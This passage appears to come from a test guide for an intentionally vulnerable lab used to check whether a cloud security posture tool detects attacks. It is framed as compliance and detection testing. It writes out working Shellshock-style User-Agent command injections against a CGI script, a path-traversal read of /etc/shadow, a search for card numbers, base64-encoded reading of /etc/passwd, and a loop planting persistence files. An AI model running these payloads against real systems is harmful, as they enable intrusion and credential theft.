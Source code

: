 **CSPM Should Detect & Correlate**:
• Initial exploitation (Shellshock-like CGI RCE)
• Post-exploitation reconnaissance
• Credential theft
• Persistence mechanisms
• Log tampering attempts
• Timeline correlation of events
• Attack pattern recognition

## Compliance Framework Testing

### PCI DSS Validation
**Test**: Credit card data security requirements
```bash
# Check for unencrypted storage
curl -H "User-Agent: /bin/find / -name '*.txt' -exec grep -l '4[0-9]\{15\}' {} \;" \
     http://$TARGET_IP/cgi-bin/exec.cgi

# Verify encryption in transit
curl -k https://$TARGET_IP:8443 2>&1 | grep -E "cipher|protocol"
```

### SOX Compliance
**Test**: Financial data controls
```bash
# Check access controls
curl -H "User-Agent: /bin/ls -la /opt/cnappuccino/secret/" \
     http://$TARGET_IP/cgi-bin/exec.cgi

# Verify audit logging
curl -H "User-Agent: /bin/ls -la /var/log/" \
     http://$TARGET_IP/cgi-bin/exec.cgi
```

### HIPAA Assessment
**Test**: Healthcare data protection
```bash
# Check for PHI exposure
curl http://$TARGET_IP:8080/secret/ | grep -E "patient|medical|health"

# Verify access controls
curl "http://$TARGET_IP/view.php?file=/etc/shadow"
```

## Real-Time Detection Testing

### Test: Live Monitoring Validation
**Objective**: Test CSPM real-time detection capabilities

**Continuous Monitoring Test**:
```bash
#!/bin/bash
# Run this script to generate continuous suspicious activity

for i in {1..10}; do
    echo "[+] Iteration $i: Generating suspicious activity"
    
    # Simulate data exfiltration
    curl -H "User-Agent: /bin/cat /etc/passwd | /bin/base64" \
         http://$TARGET_IP/cgi-bin/exec.cgi
    
    # Simulate persistence attempts
    curl -H "User-Agent: /bin/echo 'backdoor_$i' >> /tmp/.persistence" \
```